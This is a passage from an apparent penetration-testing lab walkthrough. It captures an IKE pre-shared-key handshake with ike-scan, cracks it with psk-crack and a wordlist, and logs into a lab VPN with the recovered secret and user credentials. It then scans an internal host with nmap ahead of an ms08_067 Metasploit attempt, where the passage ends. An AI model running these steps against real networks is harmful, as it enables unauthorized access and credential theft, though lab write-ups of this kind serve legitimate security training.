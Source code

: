 Shutting down server

I have found the group (vpn), now I need to capture the PSK handshake:

sudo ike-scan -M --id=vpn -A 192.168.101.7 -Ptest.psk

I am using -P parameter to save the handshake into a file. Notice that I don't add space between -P and file name. Now that I have generated a psk file which contains the handshake, I can crack it with psk-crack included into ike-scan:

psk-crack -d /home/cristiano/Scrivania/rockyou.txt test.psk -d parameter specify the wordlist to use. rockyou.txt wordlist is inside /usr/share/wordlists. This is the output:

Starting psk-crack [ike-scan 1.9.4] (http://www.nta-monitor.com/tools/ike-scan/) Loaded 1 PSK entries from test.psk Running in dictionary cracking mode key "cisco123" matches SHA1 hash 3079803df572de5b577e3b0d501762687d127045 Ending psk-crack: 141196 iterations in 0.253 seconds (557441.38 iterations/sec)

I have found the password of vpn group. Let's login with vpnc:

sudo vpnc

Insert the collected data:

Enter IPSec gateway address: 192.168.101.7 Enter IPSec ID for 192.168.101.7: vpn Enter IPSec secret for vpn@192.168.101.7: cisco123 Enter username for 192.168.101.7: westfall Enter password for westfall@192.168.101.7: AiWa8ahk

Now I am connected to cisco! I can create a lab.conf file into /etc/vpnc like this:

IPSec gateway 192.168.101.7 IPSec ID vpn IPSec secret cisco123 Xauth username westfall Xauth password AiWa8ahk

Next time I can connect to the vpn with the following command without type every time the credentials:

sudo vpnc lab.conf

## CISCO

Now that I am connected to cisco, try to browse http://google.it, it doesn't work. That's strange, try to ping the Google IP:

ping 173.194.113.56

Ping works with IP but not with URL. Seems to be a DNS problem. Let's check our DNS into /etc/resolv.conf. Surprise!

## TERMINAL

The next machine that I attack is terminal. I need to be connected to cisco router to ping 192.168.0.2, because it is an internal network IP. Do a nmap scan:

nmap 192.168.0.2 -A

Parameter -A performs an OS detection and executes some scripts to detect available services. After the scan we notice that smb service is enabled, so I can try to check if it is vulnerable to ms08_067netapi. Fire up Metasploit:
